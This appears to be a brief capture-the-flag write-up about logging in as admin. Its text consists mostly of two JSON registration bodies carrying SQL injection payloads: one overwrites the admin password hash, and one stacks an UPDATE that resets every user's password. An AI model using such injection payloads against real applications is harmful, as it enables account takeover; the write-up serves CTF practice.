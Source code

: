 ![alt text](image.png)

![alt text](image-1.png)

now we need to login as admin

![alt text](image-3.png)

username varchar(255) NOT NULL UNIQUE cant register 2 admin

![alt text](image-2.png)

![alt text](image-5.png)


![alt text](image-4.png)

{
    "username":"admin\",\"admin\") ON DUPLICATE KEY UPDATE password=\"$2b$12$Wv.6cHnG0BxuxZ82/oy2MeEgy2LG6C.O2n6Ig7GwNegw2zGB22dm2\"-- -",
    "password":"admin"
}

![alt text](image-6.png)

{
    "username":"dontuseadminlol2\",\"admin2\");UPDATE users SET password=\"$2b$12$YivQEkejK4SuhdEeKU98B.m6KnPzAvu56/gkmf3J8Uc1xbD7pJe7i\";COMMIT-- -",
    "password":"admin2"
}


![alt text](image-7.png)